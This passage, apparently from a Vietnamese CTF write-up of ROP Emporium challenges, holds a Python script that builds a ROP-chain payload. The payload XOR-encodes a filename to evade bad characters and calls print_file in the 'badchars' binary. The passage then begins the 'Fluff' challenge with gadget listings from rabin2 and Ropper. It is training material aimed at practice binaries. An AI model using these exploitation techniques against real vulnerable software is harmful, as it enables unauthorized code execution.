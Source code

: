 ```text-plain
[0x4004ee] -> ret;
[0x400510] -> print_file();
```

Dựa trên stack như trên ta build payload sử dụng python và struct module

```text-x-python
from struct import pack
import sys

def p(x):
    return pack('<Q', x)

data_loc_addr = 0x601028 + 7 # because 0x601028 + 0x6 = 0x60102e and 0x2e is '.' in badchars
key = 0x50
filename = 'flag.txt'
enc_filename = ''

for c in filename:
    enc_filename += chr(ord(c) ^ key)

payload = b''
payload += b'B'*40
payload += p(0x40069c) # pop r12; pop r13; pop r14; pop r15; ret; 
payload += enc_filename.encode() # r12
payload += p(data_loc_addr) # r13
payload += p(key) # r14
payload += p(data_loc_addr) # r15
payload += p(0x400634) # mov qword ptr [r13], r12; ret;
for i in range(1,8):
    payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
    payload += p(0x4006a2) # pop r15; ret;
    payload += p(data_loc_addr + i)
payload += p(0x400628) # xor byte ptr [r15], r14b; ret;
payload += p(0x4006a3) # pop rdi; ret;
payload += p(data_loc_addr)
payload += p(0x4004ee) # ret;
payload += p(0x400510) # print_file

sys.stdout.buffer.write(payload)
```

## Fluff
Challenge 6 tương tự challenge 4 Write 4 nhưng ta sẽ dùng các gadget mới hơn để xây dựng ROP chain

Tiến hành lấy các gadget cần thiết

```text-plain
 $ rabin2 -i fluff
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
4   0x00400510 GLOBAL FUNC       print_file

$ rabin2 -S fluff
[Sections]
nth paddr        size vaddr       vsize perm name
―――――――――――――――――――――――――――――――――――――――――――――――――
23  0x00001028   0x10 0x00601028   0x10 -rw- .data

$ python3 Ropper.py -f badchars
...
0x000000000040062a: pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx; ret; 
0x0000000000400639: stosb byte ptr [rdi], al; ret; 
```